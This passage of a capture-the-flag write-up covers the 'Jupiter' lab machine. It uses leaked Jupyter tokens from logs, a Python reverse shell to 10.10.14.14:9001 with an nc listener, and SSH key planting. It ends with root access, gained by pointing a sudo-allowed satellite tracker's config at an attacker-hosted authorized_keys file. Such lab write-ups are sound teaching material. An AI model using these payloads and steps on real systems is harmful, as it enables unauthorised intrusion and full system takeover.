grep -r token *
jupyter-2023-03-08-14.log:[I 13:14:40.727 NotebookApp] http://localhost:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
jupyter-2023-03-08-14.log:[I 13:14:40.727 NotebookApp]  or http://127.0.0.1:8888/?token=b8055b937eeb17431b3f00dfc5159ba909012d86be120b60
...
jupyter-2023-08-10-19.log:[I 20:19:35.640 NotebookApp]  or http://127.0.0.1:8888/?token=97d5fd7a67d347cb76d101a9151b5034dd10a7b12fcc96c7
jupyter-2023-08-10-19.log:        http://localhost:8888/?token=97d5fd7a67d347cb76d101a9151b5034dd10a7b12fcc96c7
jupyter-2023-08-10-19.log:     or http://127.0.0.1:8888/?token=97d5fd7a67d347cb76d101a9151b5034dd10a7b12fcc96c7
```


Open the page :

http://127.0.0.1:8888/?token=97d5fd7a67d347cb76d101a9151b5034dd10a7b12fcc96c7



We can open the Jupyter notebook "flares.ipynb" :

http://127.0.0.1:8888/notebooks/flares.ipynb






Python 3 (ikernel)

Then insert a python payload to get a reverse shell :

```python
import os,pty,socket;s=socket.socket();s.connect(("10.10.14.14",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

And execute it :



With the listener :

```shell
rlwrap nc -lvnp 9001
```

We get a shell under user jovian

```shell
id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
```

### Privilege Escalation

### Latteral movement


mkdir .ssh
cd .ssh


Copy the content of "jutiperpwn.pub" file into authorized_keys

```shell
cat <<EOF >>/home/jovian/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDFkWNDnvSmepgjI8sIisgWkujcYvdTuHGRHsCkvHfqPQF/qF2YNzJn+h+hRFykC82n+a7hpPZ9HdW62RCOv+edY/rjTgQ9k5QqSQfivQgbAzKGHR5Gawi0MTkrPukEpBBfygW+3P+Meq9XHc7Jx60ajBf/dG9yn1N+EkJ9jdsjU0EbH5DIkGSdOXL5d2zRwqhgxMsUCOUP9MiFKE/9zYlFN+XPIWZCic/FbgLwVrEsRIZGfdy/IqipXH7aUm+39qSVNkUBXuLdnkAGicw1A8YXqlCKLU3luNJdVmnFFu5BDvLsllhhcvxXdutg6CGgQoNYcpNrRqK6dAbLdURpWRJQMzQWFH1FJ5JoyuDbGHUv7GSplLh0m7T47LtYnRkErCRSSKp/sn+ednLp4eX9xgMiNxdJ9PYZB0Eu1xflozc3e6KfxWTrFix/sMWJWlunOulCLhm1fyz3RD+VgHh+LBj+9YKMfkwAGIbvxxEXJZ6G9ttGl2Tcjsi9xCPSLWa0WEyUTPg4jm5WcY8N5aNMvXI1a19tjgtt69XcDDbTsH39ZcWiELwIo+ynhLK80GMm1HmVQOAbi//BSaei+NqzDPC9XJXAlmGK3aTattAkxXztrZZTtnIMo6qTNSUyCm4dCGe49iTD7M2PHgJZpPh8sU7LlbCv1a8sJitbiIHffOtNlw== root@exegol-htb
EOF
```


ssh -i jutiperpwn jovian@jupiter.htb


```shell
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack

```

```shell
/usr/local/bin/sattrack --help
Satellite Tracking System
Configuration file has not been found. Please try again!
```

```shell
strings /usr/local/bin/sattrack | grep -i config
/tmp/config.json
Configuration file has not been found. Please try again!
tleroot not defined in config
updatePerdiod not defined in config
station not defined in config
name not defined in config
lat not defined in config
lon not defined in config
hgt not defined in config
mapfile not defined in config
texturefile not defined in config
tlefile not defined in config
su_lib_log_config
_GLOBAL__sub_I__Z6configB5cxx11
_Z14validateConfigv
```

There is a default configuration file "/tmp/config.json" that can be used.

When analyzing deeper some strings :

```shell
strings /usr/local/bin/sattrack | grep -i cpp
/home/jovian/arftracksat/representation/asset_loader.cpp
sat.cpp
legacy_gl_ui.cpp
asset_loader.cpp
graphic_util.cpp
graphics.cpp
main.cpp
_ZN8nlohmann6detail5lexerINS_10basic_jsonISt3mapSt6vectorNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEEblmdSaNS_14adl_serializerES4_IhSaIhEEEENS0_20input_stream_adapterEE6strtofERdPKcPPc

```

This could be this project : https://github.com/arf20/arftracksat

 find / -name "sattrack" -type d 2> /dev/null
/usr/local/share/sattrack

```text
jovian@jupiter:/usr/local/share/sattrack$ cat config.json
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://celestrak.org/NORAD/elements/weather.txt",
		"http://celestrak.org/NORAD/elements/noaa.txt",
		"http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}

```

Analysing the source code to understand this application.

From then main fonction, there is a function to validate the configuration file :

https://github.com/arf20/arftracksat/blob/master/src/main.cpp#L33

```c
bool validateConfig() {
#ifdef _WIN32
	constexpr auto confPath = "config.json";
#else
	constexpr auto confPath = "/usr/local/etc/arftracksat/config.json";
#endif
	if (!std::filesystem::exists(confPath)) {
		std::cout << "No config.json" << std::endl;
		return false;
	}
```

But when getting strings from executable, there was only "/tmp/config.json" that shows up. This seems that the default configuration file used is not the same.

We can try to copy the configuration file to setup :

```shell
cp config.json /tmp/config.json
```

When executing :

```shell
sudo sattrack
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
```

That works, and the application start to download "TLE" files.

Examining again the code, we can find how the configuration is used :

https://github.com/arf20/arftracksat/blob/master/src/main.cpp#L93

```c
bool checkTLE() {
	if (!config.contains("tlefile")) { std::cout << "tlefile not defined in config" << std::endl; return false; }
	if (config["tlefile"].type() != json::value_t::string) { std::cout << "tlefile is not a string" << std::endl; return false; }
	if (!std::filesystem::exists(tleroot + std::string(config["tlefile"]))) { std::cout << "tlefile is not a valid file" << std::endl; return false; }

	return true;
}
```

The configuration will concatenate "tleroot" with "tlefile" as a destination. 

https://github.com/arf20/arftracksat/blob/master/src/main.cpp#L98

```c
void getTLEs(std::string root, std::vector<std::string> urls) {
	curlpp::Cleanup cleanup;
	curlpp::Easy request;

	int i = 0;
	for (std::string& source : urls) {
		std::ofstream tlef(root + source.substr(source.find_last_of("/\\") + 1), std::ios::binary | std::ios::out);

		try {
			std::cout << "Get:" << i << " " << source << std::endl;
			request.setOpt<curlpp::Options::Url>(source);
			curlpp::options::WriteStream ws(&tlef);
			request.setOpt(ws);
			request.perform();
			i++;
		}
		catch (curlpp::RuntimeError e) { std::cout << e.what() << std::endl; }
		catch (curlpp::LogicError e) { std::cout << e.what() << std::endl; }

		tlef.close();
	}
}
```

For each URL sources in "tlesources", it will be downloaded in folder "tleroot".

This mean, we could download a file and save it anywhere as root user.

We could erase ""/root/.ssh/authorized_keys" and get a root access by SSH :

```json
        "tleroot": "/root/.ssh/",
        "tlefile": "authorized_keys",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.14:9090/authorized_keys"
        ],
```

on attacker host, prepare the target file to be downloaded :

```shell
cp jutiperpwn.pub authorized_keys
updog
```

execute the application to execute the exploit :

```shell
sudo sattrack
Satellite Tracking System
Get:0 http://10.10.14.14:9090/authorized_keys
Satellites loaded
No sats
```

Now the authorized_keys file is saved in root folder, wxe can now open a SSH shell as root :

```shell
ssh -i jutiperpwn root@jupiter.htb

root@jupiter:~# id
uid=0(root) gid=0(root) groups=0(root)
```

